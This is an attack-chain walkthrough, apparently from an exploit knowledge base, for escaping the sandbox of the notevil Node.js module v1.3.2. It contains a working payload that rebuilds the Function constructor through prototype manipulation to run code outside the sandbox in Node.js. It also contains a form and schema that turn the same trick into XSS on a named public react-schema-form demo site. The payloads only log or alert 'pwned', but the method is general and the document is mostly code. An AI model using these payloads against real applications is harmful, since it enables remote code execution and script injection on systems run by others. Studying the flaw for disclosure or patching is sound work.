

# Sandbox Escape in notevil Module Leading to RCE in Node.js and XSS in Browser

Multi-stage attack chain demonstrating a sandbox escape in the notevil Node.js module (version 1.3.2), bypassing previous fixes to execute arbitrary JavaScript outside the sandbox. This leads to remote code execution (RCE) in Node.js environments and cross-site scripting (XSS) in browser contexts, such as applications depending on notevil like react-schema-form.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/RunKit]]
- [[tools/notevil]]

### Target Environment

- Node.js runtime (for RCE)
- Web browser (for XSS)
- Dependent package like react-schema-form

### Initial Access Requirements

- Access to a Node.js environment with notevil v1.3.2 installed via npm
- Ability to visit and interact with vulnerable web applications

## Detailed Attack Procedures

### Step 1: Load Vulnerable Module
procedure: [[procedures/Load-Vulnerable-notevil-Module-in-Node.js]]

**Objective**: Import the vulnerable notevil module to access the safeEval function for sandboxed evaluation.

**Instructions**: Install and require the notevil module version 1.3.2 in a Node.js script.

```javascript
npm install notevil@1.3.2
```

Then load it:

```javascript
var safeEval = require('notevil');
```

**Expected Output**: safeEval function available for use.

**Success Indicators**:
- Module loads without errors
- safeEval is defined

### Step 2: Construct Malicious Payload
procedure: [[procedures/Construct-Malicious-Payload-for-Sandbox-Bypass]]

**Objective**: Build a JavaScript string that manipulates function prototypes to bypass the sandbox and reconstruct the Function constructor.

**Instructions**: Define the payload string targeting constructor properties.

```javascript
var code = 'function fn() {};var constructorProperty = Object.getOwnPropertyDescriptors(fn.__proto__.constructor);var properties = Object.values(constructorProperty);properties.pop();properties.pop();properties.pop();var Func = properties.map(function (x) {return x.bind(x, "return this.process.mainModule.constructor._load(`util`).log(`pwned`)")}).pop();(Func())()';
```

**Expected Output**: Payload string ready for evaluation.

**Success Indicators**:
- Payload string constructed without syntax errors

### Step 3: Execute Payload for RCE
procedure: [[procedures/Execute-Payload-to-Achieve-RCE-in-Node.js]]

**Objective**: Pass the payload to safeEval to escape the sandbox and execute arbitrary code, such as logging via the util module.

**Instructions**: Use [[commands/notevil-sandbox-escape-poc-nodejs]] in a Node.js environment like RunKit.

```javascript
console.log(safeEval(code));
```

**Expected Output**: 'pwned' logged to console via util.log.

**Success Indicators**:
- Arbitrary code executes outside sandbox
- Console output shows 'pwned'

### Step 4: Target Browser-Dependent Application
procedure: [[procedures/Exploit-Vulnerability-in-Browser-Dependent-Application]]

**Objective**: Identify and access a web application using the vulnerable notevil module, such as react-schema-form.

**Instructions**: Navigate to the application demo site.

```javascript
// No command; manual browser action
window.location.href = 'https://networknt.github.io/react-schema-form/';
```

**Expected Output**: Application loads, allowing form configuration.

**Success Indicators**:
- Site accessible
- Form builder interface available

### Step 5: Trigger XSS with Malicious Schema
procedure: [[procedures/Trigger-XSS-with-Malicious-Form-Schema]]

**Objective**: Configure a malicious JSON schema and form to trigger the sandbox escape in the browser, executing an alert.

**Instructions**: Use [[commands/react-schema-form-xss-payload]] and [[commands/react-schema-form-schema]] in the form builder.

Set form:

```json
[ { "key": "comments", "condition": "function fn() {};var constructorProperty = Object.getOwnPropertyDescriptors(fn.__proto__.constructor);var properties = Object.values(constructorProperty);properties.pop();properties.pop();properties.pop();var Func = properties.map(function (x) {return x.bind(x, 'return this.alert(`pwned `)')}).pop();(Func())()", "type": "radios", "titleMap": [ { "value": "S", "name": "Shipping" }, { "value": "P", "name": "Pickup" } ] } ]
```

Set schema:

```json
{ "type": "object", "required": [ "comments" ] }
```

**Expected Output**: Alert box pops up with 'pwned'.

**Success Indicators**:
- Alert executes in browser
- Arbitrary JS runs

## Attack Chain Summary

### Key Achievements

1. Bypassed notevil sandbox via prototype manipulation
2. Achieved RCE in Node.js by loading and executing util module
3. Triggered XSS in browser-dependent apps like react-schema-form

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
